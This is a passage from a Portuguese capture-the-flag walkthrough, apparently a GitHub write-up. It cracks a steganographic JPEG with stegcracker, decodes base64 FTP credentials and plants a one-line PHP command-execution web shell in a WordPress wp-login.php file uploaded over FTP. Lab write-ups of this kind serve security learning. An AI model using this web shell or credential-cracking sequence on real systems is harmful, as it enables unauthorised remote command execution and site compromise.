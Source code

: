 ```shell
stegcracker austrailian-bulldog-ant.jpg wordlist.txt
```

Usando o comando **cat** para ver conteúdo do arquivo de saída:

```shell
cat austrailian-bulldog-ant.jpg.out
```

note que a informação está em base64, logo:

```shell
cat austrailian-bulldog-ant.jpg.out | base64 -d
```

Temos o login e senha do serviço ftp.

## Exploração

Para começar a nossa exploração no sistema iremos acessar o **ftp**. Com o acesso realizado com sucesso, listaremos os arquivos com o comando **ls**.

![Ftp](img/ftp.png)

vamos tentar realizar uma abordagem diferente, vou add a seguinte linha no arquivo **wp-login.php**:

```shell
<?php system($_GET["C"]); ?>
```

para isso, iremos baixar o arquivo e editar ele, posteriormente iremos subir para o servidor ftp.
